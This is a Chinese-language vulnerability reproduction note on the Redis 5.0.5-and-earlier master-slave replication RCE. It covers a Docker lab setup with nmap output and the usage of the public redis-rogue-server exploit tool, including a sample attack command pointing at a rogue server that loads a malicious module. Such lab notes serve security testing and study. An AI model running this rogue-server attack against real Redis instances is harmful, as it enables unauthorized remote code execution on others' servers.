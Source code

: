 # Redis 小于5.0.5 主从复制 RCE

## 漏洞描述

在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大

[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## 漏洞影响

```
Redis <= 5.0.5
```

## 环境搭建

```shell
docker pull damonevking/redis5.0 
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
```

nmap扫描一下6379端口开放即为搭建成功

```shell
root@kali:~/桌面# docker pull damonevking/redis5.0 
Using default tag: latest

latest: Pulling from damonevking/redis5.0
fc7181108d40: Pull complete 
3e0ac67cad82: Pull complete 
6ee495cb7235: Pull complete 
9f7206d08b9d: Pull complete 
a8354ef8cccb: Pull complete 
53afb10d81c2: Pull complete 
Digest: sha256:adcf62f378efe1187d2f72c6f0ecdf86ab2173a9e1c3c9f4fe4bb89060f5362f
Status: Downloaded newer image for damonevking/redis5.0:latest
docker.io/damonevking/redis5.0:latest
root@kali:~/桌面# docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
1275aa9c6c8f8ad0b6c8e58e609be6681acedec301b5593f7e8b0bd65f7fad12
root@kali:~/桌面# nmap 127.0.0.1 -p 6379
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 21:47 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000099s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

## 漏洞复现

关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```

![image-20220209122913587](images/202202091229797.png)

![image-20220209122934426](images/202202091229486.png)